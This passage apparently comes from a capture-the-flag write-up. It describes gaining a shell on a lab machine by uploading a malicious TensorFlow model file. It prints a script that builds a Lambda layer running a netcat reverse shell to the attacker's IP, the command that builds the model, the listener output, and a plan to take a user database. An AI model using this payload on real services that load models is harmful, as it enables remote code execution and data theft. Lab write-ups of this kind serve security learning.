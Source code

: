Pretty nice and details.

So now, what if we modify or even create another script to reverse shell back to our kali machine? <br>
Google it our and found some articles: [Tensorflow Remote Code Execution with Malicious Model](https://splint.gitbook.io/cyberblog/security-research/tensorflow-remote-code-execution-with-malicious-model) and [Tensorflow RCE](https://github.com/Splinter0/tensorflow-rce/blob/main/exploit.py).

### Tensorflow RCE
Gonna use this script from [Tensorflow RCE](https://github.com/Splinter0/tensorflow-rce/blob/main/exploit.py).

```bash
import tensorflow as tf

def exploit(x):
    import os
    os.system("rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.59 3333 >/tmp/f")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```

> Just modified the IP address and port to our own `tun0` and favor `port` you want.

Then run this command to generate the `exploit.h5` file:

```bash
└─$ sudo docker run --rm -v $(pwd):/code -w /code python:3.8-slim bash -c "
pip install https://files.pythonhosted.org/packages/65/ad/4e090ca3b4de53404df9d1247c8a371346737862cfe539e7516fd23149a4/tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl &&
python reverse_shell_tensorflow.py
"
```

Upload the `exploit.h5` file to the website and click the `View Predictions` button. <br>
We got a reverse shell back to our kali machine.

```bash
└─$ rlwrap -cAr nc -lvnp 3333
listening on [any] 3333 ...
connect to [10.10.14.59] from (UNKNOWN) [10.129.43.221] 41340
/bin/sh: 0: can't access tty; job control turned off
$ pwd
/home/app/app
```

### DB & Cracking
Go around and found out there is a `user.db` file in the `/home/app/app/instance` directory. <br>
&rarr; Grab it back to our kali machine.
